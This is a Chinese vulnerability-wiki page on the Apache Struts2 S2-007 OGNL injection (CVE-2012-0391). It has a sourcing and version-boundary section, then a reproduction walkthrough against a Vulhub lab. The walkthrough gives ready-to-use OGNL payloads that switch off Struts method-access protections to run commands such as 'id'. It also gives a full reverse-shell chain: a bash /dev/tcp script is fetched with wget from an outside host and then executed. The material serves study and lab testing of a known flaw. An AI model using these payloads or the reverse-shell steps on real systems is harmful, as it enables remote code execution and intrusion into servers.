


# Apache Struts2 S2-007 远程代码执行漏洞

## 2026-10-03 公开材料补充：Struts 转换异常 OGNL 求值的同实体来源补充（CVE-2012-0391）


### 与现有条目的关系

本稿补充既有S2-007主文的原始来源、具体输入/结果、版本修复和编号映射。Apache S2-007、S2-008第1项、CVE-2012-0391与CVE-2012-0838的CNA记录均指向WW-3668；这足以支持同一转换异常实体的资料关联，但不是CVE官方宣布两号重复/撤销。现有devMode条目属另一子问题，全部保留。

官方WW-3668给出Struts2.2.3/Tomcat7.0.19环境：在Showcase的Validation→Field Validators中，把下列原始输入放入Integer Validator Field并提交，结果页显示application作用域变量：

```text
<' + #application + '>
```

该结果比“存在此参数/版本”更具体；JIRA同时点名ConversionErrorInterceptor与RepopulateConversionErrorFieldValidatorSupport。此处只记载来源步骤，未实际执行。

### 范围与前提

CNA 与 Apache S2-008 对此子问题明确为 <2.2.3.1；SEC Consult PoC1 实测 2.2.1.1。S2-008 总公告的 2.3.1.1/2.3.18 不能替代此 CVE 的修复边界。

Action 存在 Integer/Long 等参数属性及 getter/setter，类型转换失败进入 ExceptionDelegator，并配置 input 结果；不要求 devMode/debug=command。

### 根因与公开验证材料

类型不匹配抛异常后，未经同等过滤的参数值被再次当 OGNL 求值。

SEC Consult 原始完整公告 PoC1 提供 Test Action、struts.xml input 配置、可触发请求、文件写入/计算器结果和结果页 s:property；固定 MSF 模块全文互证。

来源说明写出 C:/wwwroot/sec-consult.jsp、执行 calc 或由结果页显示 OGNL 求值结果；PoC1 明列 Jetty 6.1.25 与 Struts 2.2.1.1 测试。

### 副作用和静态审阅边界

写/覆盖 JSP、执行命令，MSF stager 还会落盘/回连；自动清理依赖会话类型，Windows 运行中程序不能立即删除。

原发现公告小标题写 <=2.2.1.1，模块写 <2.2.1.1，但其正文和 CNA/Apache 明确补丁为 2.2.3.1；三种表述分别保留来源归属。

2026-10-03 本次只阅读、比较与静态解析材料，未执行任何 PoC、载荷或目标请求，未安装漏洞依赖，未查看图片像素或进行可复现构建。源码/二进制哈希与依赖清单用于追溯，不是安全认证。

### 修复与版本边界

此实体在 2.2.3.1 修正；原公告总包 2.3.1.1 和后续 S2-008 页面 2.3.18 涉其他子问题。

### 来源

公开实现作者（按所读模块 Author 字段）：Johannes Dahse；Andreas Nusser；juan vazquez；sinn3r；mihi。固定提交为 5e598d5233bebecef2a44904a286769d83d31d12；模块 DisclosureDate 是漏洞披露标记，不冒充代码当前版本发布日期。本文为多来源原创中文梳理，不整篇翻译或复制原文章。

- [CNA 描述记录](https://raw.githubusercontent.com/CVEProject/cvelistV5/main/cves/2012/0xxx/CVE-2012-0391.json)：50cb886246a93483a891863dbbcffb654840212b1b0c556a53e6b77f5f96d1ec
- [Rapid7 固定实现](https://raw.githubusercontent.com/rapid7/metasploit-framework/5e598d5233bebecef2a44904a286769d83d31d12/modules/exploits/multi/http/struts_code_exec_exception_delegator.rb)：0474953e5b6eb96ba24fa412148ede8167c0c6db5efb4a3994884c14ca8b0285
- [struts-secconsult](https://sec-consult.com/vulnerability-lab/advisory/multiple-critical-vulnerabilities-in-apache-struts2/)：原始技术公告全文
- [S2-008](https://cwiki.apache.org/confluence/spaces/WW/pages/27834715/S2-008)：原始技术公告全文

- [Apache S2-007](https://cwiki.apache.org/confluence/spaces/WW/pages/27826393/S2-007)
- [Apache原始工单WW-3668](https://issues.apache.org/jira/browse/WW-3668)
- [CVE-2012-0838 CNA记录](https://raw.githubusercontent.com/CVEProject/cvelistV5/main/cves/2012/0xxx/CVE-2012-0838.json)


<!-- vulwiki-editorial:start -->
## 校订与适用边界

- 适用前提：2.0.0–2.2.3，类型转换失败并回填用户值；Integer age和验证规则是本例入口
- 证据范围：Action和验证XML清楚，比只贴表达式完整；明确Mac calculator不适于当前Linux环境。

### 本次正文校订

- 按实际内容修正 3 处代码围栏语言标记，保留其中方法与请求内容。

### 尚未解决的证据缺口

以下限制仍适用于后文历史材料；相关版本、结果或修复结论不能据此视为已验证：

- 普通验证表单称上传表单不准确
- 缺官方CVE和修复版本，具体测试版本/JDK未列
- 反弹payload依赖IOUtils及cwd/目标平台，不能自动泛化
- 写shell和改变memberAccess的副作用缺说明

### 操作风险与资料使用

- 含反向连接或交互式命令执行方法：会产生出站连接和子进程；目标、监听端与网络须在授权隔离范围内，结束后关闭会话并核对遗留进程。

本页为文本校订，未执行代码、PoC 或目标请求；原图仅保留引用，未据此确认复现成功。
<!-- vulwiki-editorial:end -->

## 技术正文与历史材料

## 漏洞描述

参考 http://rickgray.me/2016/05/06/review-struts2-remote-command-execution-vulnerabilities.html

当配置了验证规则 `<ActionName>-validation.xml` 时，若类型验证转换出错，后端默认会将用户提交的表单值通过字符串拼接，然后执行一次 OGNL 表达式解析并返回。例如这里有一个 UserAction：

```
(...)
public class UserAction extends ActionSupport {
    private Integer age;
    private String name;
    private String email;

(...)
```

然后配置有 UserAction-validation.xml：

```
<?xml version="1.0" encoding="UTF-8" ?>
<!DOCTYPE validators PUBLIC
    "-//OpenSymphony Group//XWork Validator 1.0//EN"
    "http://www.opensymphony.com/xwork/xwork-validator-1.0.2.dtd">
<validators>
    <field name="age">
        <field-validator type="int">
            <param name="min">1</param>
            <param name="max">150</param>
        </field-validator>
    </field>
</validators>
```

当用户提交 age 为字符串而非整形数值时，后端用代码拼接 `"'" + value + "'"` 然后对其进行 OGNL 表达式解析。要成功利用，只需要找到一个配置了类似验证规则的表单字段使之转换出错，借助类似 SQLi 注入单引号拼接的方式即可注入任意 OGNL 表达式。

因为受影响版本为 Struts2 2.0.0 - Struts2 2.2.3，所以这里给出绕过安全配置进行命令执行的 Payload（**弹计算器，无法在本项目环境下运行**）：

```
' + (#_memberAccess["allowStaticMethodAccess"]=true,#foo=new java.lang.Boolean("false") ,#context["xwork.MethodAccessor.denyMethodExecution"]=#foo,@java.lang.Runtime@getRuntime().exec("open /Applications/Calculator.app")) + '
```

漏洞详情:

- http://struts.apache.org/docs/s2-007.html

## 漏洞影响

影响版本: 2.0.0 - 2.2.3

## 环境搭建

Vulhub 执行以下命令启动 s2-007 测试环境：

```shell
docker-compose build
docker-compose up -d
```

访问 `http://your-vps-ip:8080/index.jsp` 即可进入上传表单页面。

## 漏洞复现

执行任意代码的 EXP：

```
' + (#_memberAccess["allowStaticMethodAccess"]=true,#foo=new java.lang.Boolean("false") ,#context["xwork.MethodAccessor.denyMethodExecution"]=#foo,@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec('id').getInputStream())) + '
```

将 Exp 传入可以利用的输入框（age），得到命令执行结果：




### 反弹 shell

编写 shell 脚本并启动 http 服务器：

```
echo "bash -i >& /dev/tcp/192.168.174.128/9999 0>&1" > shell.sh
python3环境下：python -m http.server 80
```

上传 shell.sh 文件的命令为：

```shell
wget 192.168.174.128/shell.sh
```

上传 shell.sh 文件的 Payload 为：

```
' + (#_memberAccess["allowStaticMethodAccess"]=true,#foo=new java.lang.Boolean("false") ,#context["xwork.MethodAccessor.denyMethodExecution"]=#foo,@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec('wget 192.168.174.128/shell.sh').getInputStream())) + '
```

执行 shell.sh 文件的命令为：

```shell
bash /usr/local/tomcat/shell.sh
```

执行 shell.sh 文件的 Payload 为：

```
' + (#_memberAccess["allowStaticMethodAccess"]=true,#foo=new java.lang.Boolean("false") ,#context["xwork.MethodAccessor.denyMethodExecution"]=#foo,@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec('bash /usr/local/tomcat/shell.sh').getInputStream())) + '
```

成功接收反弹 shell：




---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
